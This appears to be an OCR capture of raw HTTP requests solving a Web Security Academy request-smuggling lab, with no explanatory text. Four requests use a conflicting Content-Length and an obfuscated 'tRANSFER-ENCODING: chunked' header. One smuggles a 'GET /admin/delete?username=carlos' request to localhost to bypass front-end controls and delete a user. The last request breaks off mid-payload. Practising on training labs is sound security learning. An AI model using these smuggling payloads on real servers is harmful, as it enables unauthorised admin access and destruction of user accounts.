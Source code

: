 
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0

---

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
0


---

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 12
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked

3
x=y
89

`GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

---

POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
